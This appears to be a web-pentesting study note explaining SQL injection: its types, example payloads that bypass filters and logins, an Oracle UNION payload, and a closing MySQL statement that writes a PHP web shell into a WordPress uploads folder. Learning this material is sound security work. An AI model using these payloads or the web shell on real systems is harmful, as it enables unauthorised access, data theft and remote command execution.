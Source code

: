 ```yaml
---
title: SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting 
---
```


# SQL injection

SQL stands for Structure Query Language.

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database:

+ to view data.
+ to retrieve it.
+ to modify it.
+ to delete it.
+ to compromise the infraestructure with what is known for instance as a denial of service attack.


A detailed Cheat sheet with manual union and blind attacks can be found in the [SQLi Cheat sheet for manual attack](sqli-manual-attack.md).

## Examples

1. Retrieving hidden data.
2. Subverting application logic.
3. UNION attacks.
4. Examining the database.
5. Blind SQL injection.



### Retrieving hidden data

Examples at a shopping application 

| Request URL | SQL Query | Explained |
| --- | --------- | ----------|
| http://insecure-website.com/products?category=Gifts | SELECT * FROM products WHERE category='Gift' AND release=1 | Restriction "released" is being used to hide products that are not released. Unreleased products will be presumably released=0 |
| http://insecure-website.com/products?category=Gifts'-- | SELECT * FROM products WHERE category='Gift'--' AND released=1 | Explained: Double dash sequence -- is a comment indicator in SQL which means that the rest of the query is interpretated as a comment. The application will display all the products in a category, being released or not. | 
| https://insecure-website.com/products?category=Gifts'+OR+1=1-- | SELECT * FROM products WHERE category='Gifts' OR 1=1--' AND released=1 | This will return all items where category is Gifts, or 1=1. Since 1=1 is always true, the query will return all items. | 


### Subverting application logic

| Request URL | SQL Query | Explained |
| ----------- | --------- | --------- |
| Login  |  SELECT * FROM users WHERE username="admin" AND password="lalalala" | Login process, probably with a POST method |
| Login: Adding admin'-- in the username and '' in the password field | SELECT * FROM users where username="admin'-- AND password='' | This query returns the user whose name is admin and succesfully logs the attacker as that user. |


### UNION attacks

In cases where the results of a SQL query are returned within the application responses, an attacker may try to retrieve data from others tables using the keyword UNION. They also can examine the existing database.



## Clasification

SQLi (for SQL injection) typically falls under three categories.


### 1. In-band SQLi / or Classic SQL injection

Attacks are sent from the same channel in which results are collected.


#### Error-based SQLi

The attacker performs actions that cause the database to produce error messages. The attacker can potentially use the data provided by these error messages to gather information about the structure of the database.


#### Union-based SQLi

This technique uses the UNION SQL operator.


### 2. Inferential (Blind) SQLi

The attacker sends data payloads to the server and observes the response and behaviour of the server to learn more about its structure. This method is called SQLi because the data is not transferred from the website database to the attacker.

Blind SQL injection relies on the response and behavioral pattern of the server to they are tipically slower to execute but may be just harmful.

#### Boolean-based (content-based) Blind SQLi

Inferential SQL injection technique that relies on sending a SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FLASE result.


#### Time-Based Blind SQLi

If you don't get a TRUE or FALSE response, sometimes you may infere if it is TRUE or FALSE based on time of response. Time-based SQL injection is a inferential SQL injection technique that relies on sending a SQL query to the database, which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.


### 3. Out-of.Band SQLi

It's used when an attacjer is unabled to use the same channel to launch the attack and gather results. Out-of-band SQLi techniques would rely on the database server's ability to maje DNS or HTTP request to deliver data to an attacker.

Such is the case of Microsoft SQL Server's xp_dirtree command, which can be used to make DNS request to a server that an attacker controls, as well as Oracle Database's UTL_HTTP package, which can be used to send HTTP requests from SQL and PL/SQL ti a server that an attacker controls.


## DUAL

The DUAL is a special one row, one column table present by default in all Oracle databases. The owner of DUAL is SYS, but DUAL can be accessed by every user. This is a possible payload for SQLi:

```
'+UNION+SELECT+NULL+FROM+dual--
```

Oracle syntax requires the use of FROM, but some queries don't requires any table. For these case we use DUAL. Also Oracle doesn't allow the queries that employ information_schema.tables.


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](web-security-testing-guide.md).
- Detailed **Cheat sheet** with manual union and blind attacks can be found in the [SQLi Cheat sheet for manual attack](sqli-manual-attack.md).


## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

